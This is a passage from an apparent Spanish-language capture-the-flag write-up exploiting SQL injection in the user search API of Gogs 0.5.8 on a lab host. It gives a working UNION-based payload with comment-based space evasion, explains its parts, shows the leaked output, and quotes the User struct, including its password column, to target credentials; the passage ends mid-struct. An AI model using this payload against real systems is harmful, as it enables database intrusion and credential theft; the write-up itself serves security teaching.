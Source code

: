 Este fragmento de código devuelve todos aquellos usuarios que contengan en su nombre una *keyword*. Esa *keyword* será nuestro input.

La petición es la siguiente:

```python
http://10.10.11.176/api/v1/users/search?q=TEST
```

La palabra **TEST** se sustituirá directamente en ***opt.keyword***. Esto lo hace vulnerable a SQLI, ya que por ejemplo el *input* no se está **sanitizando**.

##### Explotando SQLI

Podríamos construir una petición maliciosa de la siguiente manera:

```python
http://10.10.11.176:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-
```

* **')** se emplea para cerrar la comilla y el paréntesis abiertos de la *query* principal.
* ***union all select*** incluye todas las filas, incluso si hay duplicados.
* ***/\*\*/*** es una forma de representación del espacio, ya que el espacio como tal no se puede usar.
* Los **27 campos** es porque la tabla *users* está formada por 27 columnas. Sabemos que son 27 por el reporte citado anteriormente.
* **-- -** sirve para comentar todo lo que hay en la derecha. En este caso estaríamos comentando:

```
+ "%'").Find(&us)
```

El ***output*** obtenido es el siguiente;

```json
[
  {
    "username": "susanne",
    "avatar": "//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"
  },
  {
    "username": "3",
    "avatar": "//1.gravatar.com/avatar/15"
  }
]
```

Descubrimos un usuario llamado ***susanne***.

Vemos que el número **3** de nuestra *query* se está representado en el resultado. Este es el campo **inyectable**. En este campo meteremos nuestro *payload* malicioso para volcar información de la base de datos. Ahora, para saber el nombre de las columnas de la tabla *user* y poder así obtener información, deberemos consultar el **código fuente** de [gogs 0.5.8](https://github.com/gogs/gogs/releases/tag/v0.5.8).

La tabla *users* se encuentra en el archivo *users.go* y contiene los **siguientes campos**:

```go
// User represents the object of individual and member of organization.
type User struct {
	Id            int64
	LowerName     string `xorm:"UNIQUE NOT NULL"`
	Name          string `xorm:"UNIQUE NOT NULL"`
	FullName      string
	Email         string `xorm:"UNIQUE NOT NULL"`
	Passwd        string `xorm:"NOT NULL"`
	LoginType     LoginType
	LoginSource   int64 `xorm:"NOT NULL DEFAULT 0"`
	LoginName     string
	Type          UserType
```